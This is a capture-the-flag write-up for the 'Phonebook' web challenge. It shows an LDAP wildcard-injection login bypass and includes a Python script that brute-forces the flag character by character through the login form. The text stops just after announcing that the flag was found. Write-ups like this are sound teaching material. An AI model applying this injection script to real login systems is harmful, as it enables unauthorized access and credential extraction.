 # Phonebook

## Difficulty = Easy

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/5e012325-bdd9-4184-9158-3f23a60b77ec)

---

Navigating to the website, we get a login page:

![](https://i.imgur.com/sqmR180.png)

- First of all we view page-source

![](https://i.imgur.com/NDjFIy3.png)

- We can see that the version of **phonebook** has been exposed, which is `phonebook 9.8.2020`
- Pasting this on google should give us more information

![](https://i.imgur.com/ALJAIgQ.png)
Read more from [here](https://portswigger.net/kb/issues/00100500_ldap-injection)

- Since characters like `();,*|&= and whitespaces` should be blocked, let try them out

![](https://i.imgur.com/uSIvzN0.png)

- Nothing works except from `*`, Now we have successfully logged in, let search if we have user **Reese** as said in the login page

- Yes we have user reese, i then started searching for keywords like, r, e and s

![](https://i.imgur.com/IyaFgss.png)
![](https://i.imgur.com/V7dqFm0.png)

- After much enumeration, i notice that i have to bruteforce the login page to get a flag, here is a python script that will help us:

```python
import requests
import string

headers = {"UserAgent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0"}
url = "http://167.99.84.37:32125/login"

chars = string.ascii_letters
chars += ''.join(['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '`', '~', '!', '@', '$', '%', '&', '-', '_', "'"])

counter = 0
flag = "HTB{"

while True:
    # if all chars are not correct means we previous already found the flag
    if counter == len(chars):
        print(flag + "}")
        break

    # creates something like HTB{a*}
    password = flag + chars[counter] + "*}"
    print("Trying: " + password)

    data = {"username" : "Reese", "password" : password}
    response = requests.post(url, headers=headers, data=data)
    
    if (response.url != url + "?message=Authentication%20failed"):
        # possible flag since we still using * at the end: e.g HTB{abc_*}.
        # append chars[] so that we not need to deal with removing "*}" as compared to if we assign password variable to flag variable
        flag += chars[counter]
        counter = 0
    else:
        # increment the char since we might not have found the right letter
        counter += 1
```

- It worked, we got a flag:
